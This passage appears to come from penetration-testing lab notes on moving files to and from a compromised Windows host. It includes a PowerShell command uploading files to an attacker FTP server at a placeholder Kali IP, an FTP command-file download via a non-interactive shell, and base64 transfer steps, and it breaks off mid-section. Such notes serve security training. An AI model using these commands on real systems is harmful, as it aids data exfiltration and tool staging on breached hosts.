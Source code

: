- Upload:

  ```cmd
  (New-Object Net.WebClient).UploadFile('ftp://[KALI_IP]:2121/[DEST]', '[SRC]')`
  ```

- If the shell is not interactive, you can create an FTP command file to download the file. Use `PUT` instead of `GET` to upload.              

  ```cmd-session
  C:\htb> echo open 192.168.49.128 > ftpcommand.txt
  C:\htb> echo USER anonymous >> ftpcommand.txt
  C:\htb> echo binary >> ftpcommand.txt
  C:\htb> echo GET file.txt >> ftpcommand.txt
  C:\htb> echo bye >> ftpcommand.txt
  C:\htb> ftp -v -n -s:ftpcommand.txt
  ftp> open 192.168.49.128
  
  ftp> USER anonymous
  ftp> GET file.txt
  ftp> bye
  
  C:\htb>more file.txt
  This is a test file
  ```

### Base 64

`cmd` has a maximum string length of  8,191 characters. Also, a web shell may error if you attempt to send extremely large strings. 

**Download:**

1. check the encoding to compare later:

   ```bash
   md5sum [FILE]
   ```

2. encode a file to a base64 string

   ```bash
   cat [FILE] |base64 -w0;echo
   ```

3. copy the string, paste it in the Windows terminal and decode:

   ```cmd
   [IO.File]::WriteAllBytes("[LOCATION]", [Convert]::FromBase64String("[STRING]"))		
   ```

4. Check if everything went correctly:

   ```cmd
   Get-FileHash [LOCATION] -Algorithm md5
   ```

**Upload**

1. Encode with Powershell
